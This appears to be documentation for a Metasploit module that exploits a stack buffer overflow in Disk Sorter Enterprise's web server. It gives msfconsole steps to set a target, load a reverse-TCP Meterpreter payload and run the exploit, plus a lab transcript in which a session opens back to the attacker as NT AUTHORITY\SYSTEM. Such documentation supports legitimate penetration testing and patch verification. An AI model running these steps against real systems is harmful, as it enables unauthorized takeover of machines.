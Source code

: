## Vulnerable Application

[Disk Sorter Enterprise](http://www.disksorter.com) versions up to v9.5.12 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [Exploit-DB](https://www.exploit-db.com/apps/5ffae2c1a4b2165e0dd2a8e37765ef0e-disksorterent_setup_v9.5.12.exe).

## Verification Steps
  1. Install a vulnerable Disk Sorter Enterprise
  2. Start `Disk Sorter Enterprise` service
  3. Start `Disk Sorter Enterprise` client application
  4. Navigate to `Tools` > `Disk Sorter Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/disksorter_bof`
  8. Do `set RHOST ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###Disk Sorter Enterprise v9.5.12 on Windows 7 SP1

```
msf exploit(disksorter_bof) > show options 

Module options (exploit/windows/http/disksorter_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    172.16.0.9       yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.0.20      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Disk Sorter Enterprise v9.5.15


msf exploit(disksorter_bof) > exploit 

[*] Started reverse TCP handler on 172.16.0.20:4444 
[*] Sending request...
[*] Sending stage (957487 bytes) to 172.16.0.9
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.9:59371) at 2017-04-24 14:46:52 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```